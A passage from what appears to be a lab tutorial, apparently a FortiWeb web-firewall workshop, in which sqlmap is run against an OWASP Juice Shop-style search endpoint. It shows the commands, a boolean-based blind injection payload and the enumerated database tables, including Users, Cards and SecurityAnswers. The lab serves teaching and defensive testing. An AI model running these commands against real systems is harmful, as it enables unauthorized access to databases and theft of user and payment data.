 
    ```
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q="  --dbms=SQLite --technique=B --level 3 --batch
    ```

    ```plaintext
    ...[SNIP]...
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: q (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: q=') AND 1976=1976 AND ('zuWc' LIKE 'zuWc
    ---
    ...[SNIP]...
    ```


4. Now we can have sqlmap figure out a list of all tables in the database. We will speed up the request by adding the **--threads 10** to allow sqlmap to send 10 concurrent requests

    ```
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q="  --technique=B --tables --threads 10
    ```

    ```plaintext
    <current>
    [20 tables]
    +-------------------+
    | Addresses         |
    | BasketItems       |
    | Baskets           |
    | Captchas          |
    | Cards             |
    | Challenges        |
    | Complaints        |
    | Deliveries        |
    | Feedbacks         |
    | ImageCaptchas     |
    | Memories          |
    | PrivacyRequests   |
    | Products          |
    | Quantities        |
    | Recycles          |
    | SecurityAnswers   |
    | SecurityQuestions |
    | Users             |
    | Wallets           |
    | sqlite_sequence   |
    +-------------------+